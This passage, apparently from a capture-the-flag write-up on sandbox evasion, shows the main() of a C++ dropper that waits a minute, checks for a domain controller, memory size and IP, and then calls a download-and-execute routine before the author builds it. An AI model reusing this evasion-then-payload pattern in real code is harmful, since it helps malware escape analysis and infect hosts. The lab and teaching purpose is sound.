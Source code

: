```cpp
    }
}

int main() {
    Sleep(60000);
    if (isDomainController() == TRUE) {
        if (memoryCheck() == TRUE) {
            if (checkIP() == TRUE) {
                
                downloadAndExecute();
            }
        }
    }
    return 0;
}
```
{: .nolineno }

Finnaly, we can make a new project, copy our code and build this code :

![New Project](/images/thm/sandboxevasion/sandboxevasion_3.png)
_New Project_
